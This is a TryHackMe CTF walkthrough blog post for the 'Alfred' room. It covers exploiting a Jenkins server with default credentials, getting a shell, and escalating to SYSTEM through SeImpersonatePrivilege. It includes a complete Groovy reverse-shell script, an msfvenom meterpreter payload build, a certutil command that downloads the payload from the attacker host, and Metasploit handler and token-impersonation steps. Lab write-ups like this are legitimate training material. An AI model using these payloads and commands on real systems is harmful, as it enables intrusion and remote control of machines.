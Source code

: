 ```yaml
---
title: "Alfred Can't Stop this SeImpersonatePrivilege Vulnerability"
datePublished: Sun Aug 06 2023 06:10:18 GMT+0000 (Coordinated Universal Time)
cuid: clkz1o7n0000c0aky82kx74kw
slug: alfred
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691626028233/7941dfd0-5aa7-495d-b1d1-fd7cc95eae89.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com). The objective behind this room is to exploit a misconfigured Jenkins server, obtain a reverse shell, and escalate privileges by leveraging a `SeImpersonatePrivilege` capability on a low-level user to obtain `NT AUTHORITY\SYSTEM` level privileges.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301818828/a91e91f2-b0ac-457a-9228-8f0a8cb964d0.png align="center")

### Step 1: Nmap

```bash
nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
```

```plaintext
┌──(root㉿kali)-[~]
└─# nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 17:33 MDT
Nmap scan report for alfred.thm (10.10.70.88)
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows Server 2008 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows 7 SP1 (85%), Microsoft Windows 8.1 R1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.82 seconds
```

From this scan, we identified three open ports: 80, 3389, and 8080.

Port 80:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301860116/5d6ce597-3d72-4198-9f5e-77c5e2d5c3e4.png align="center")

Port 8080:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301877545/ab705601-fa4e-412d-a000-b6373ce2c088.png align="center")

### Step 2: Logging In

Trying some default login credentials, we discover that `admin:admin` works.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301895746/23b418b2-8179-4d4f-8d80-a5c67410a555.png align="center")

### Step 3: Initial Foothold

Peeking around the system, we find an area where we can use `groovy` scripts. This will be our way into the box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301912905/2623a425-11de-4301-a1f0-e7e5b203dddd.png align="center")

We're using a groovy shell which can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy).

```php
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Running this script inside the built-in `Script Console` calls our attack box and drops us into a shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301962193/86c8e757-befb-433a-aa36-d828d60ca937.png align="center")

From here we find our `user.txt` flag located in `C:\Users\bruce\Desktop\` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301971137/3296a91b-9046-4d90-b0f7-9433675ce6af.jpeg align="center")

### Step 4: Upgrade to Meterpreter Shell

First, we want to generate our payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.28.215 LPORT=1335 --format exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302000265/483a5146-9d7a-4d33-9db7-05cb9c09007f.webp align="center")

From the victim, we're going to use `certutil` to download it.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302014664/102fb327-07be-4624-bbc0-74e1356897d5.webp align="center")

Now we fire up `msfconsole` and set up our handler to catch the shell.

1. `use exploit/multi/handler`
    
2. `set payload windows/meterpreter/reverse_tcp`
    
3. `set LHOST <ATTACKER_IP>`
    
4. `set LPORT 1335`
    
5. `exploit`
    

Once the `payload.exe` is run on the victim machine, our handler will catch the shell and drop us in.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302062807/2da5c976-0a1c-4fba-8435-640bc686b8b7.webp align="center")

### Step 5: Privesc

Let's see what privileges we have currently by typing `whoami /priv`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302097741/26946bf1-f36b-4081-8b45-95fd0b1716ec.webp align="center")

Nice. We have `SeImpersonatePrivilege`, let's exploit this vulnerability. We can achieve this by using the `incognito module` built into metasploit.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302105355/5dcbd0e2-abf7-4162-830b-97854bada4d0.webp align="center")

Next, we want to impersonate the Administrator's token. We can do this by typing the following command: `impersonate_token "BUILTIN\Administrators"`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302112792/09d85050-8f39-417b-a03b-ac2e11017caf.png align="center")

Now let's migrate to a process with correct permissions. The safest bet is to always migrate to the `services.exe` service.

1. View processes: `ps`
    
2. Find the PID of `services.exe`
    
3. `migrate <PID>`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302134644/1c59dc1b-ca2f-4246-a8ef-847b6fc8eb70.webp align="center")

Now that we're successfully `NT AUTHORITY\SYSTEM`, let's find our root flag and complete this room.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302142088/b9e2bb98-1942-4e38-8663-e0c86e10076a.jpeg align="center")

This room was a great introduction to AD pentesting. After going through this, I realized I have a long way ahead of me until I feel comfortable enough to sit down for the PNPT certification by TCM Security. I hope you enjoyed this walkthrough of the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com), and as always, Happy Hacking.